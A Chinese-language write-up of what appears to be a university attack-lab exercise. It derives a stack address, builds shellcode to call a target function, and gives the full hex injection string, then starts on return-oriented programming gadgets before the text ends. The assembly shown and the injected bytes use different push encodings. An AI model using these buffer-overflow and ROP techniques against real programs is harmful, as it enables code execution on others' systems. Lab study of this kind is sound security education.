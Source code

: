 我们从touch2可以知道起始栈地址是0x5561dc78

0x28+8=48

0x5561dc78+48=0x5561dca8这个就是我们字符串进行的地址啦

汇编编写

```
movq    $0x5561dca8, %rdi
pushq   0x4018fa
ret
```

```
q@ubuntu:~$ objdump -d 3.o

3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	ff 34 25 fa 18 40 00 	pushq  0x4018fa
   e:	c3                   	retq   

```

综上所述得到注入字符

```
48 c7 c7 a8 dc 61 55 68 fa 18 
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00
```

## rop攻击

### touch 2

这次我们不直接从栈上去攻击

而是利用程序现有的汇编片段去构建完整的汇编指令

输入objdump -d rtarget 可以看见ctarget汇编片段

本题需要构造的汇编代码

```
popq %rax
movq %rax, %rdi
```

汇编码如下
